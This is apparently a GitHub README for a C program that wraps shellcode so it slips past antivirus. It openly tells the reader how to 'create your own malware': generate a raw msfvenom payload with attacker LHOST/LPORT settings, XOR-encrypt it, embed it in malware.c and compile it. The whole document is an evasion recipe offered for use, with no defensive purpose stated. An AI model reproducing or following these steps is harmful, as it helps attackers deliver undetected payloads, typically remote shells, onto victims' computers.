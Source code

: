 # AV_bypass_shellwrapper
Shell wrapper script written in C language to bypass AVs

To  create you own malware create a raw msfvenom payload
```
msfvenom -p <payload_type> LHOST=<lhost> LPORT=<lport> -f raw -o shellcode.bin
````

XOR encrypt the payload
```
xor.py shellcode.bin
```

Add the Encrpted shellcode with the variable c inside the malware.c 

Compile the code using Visual Studio IDE
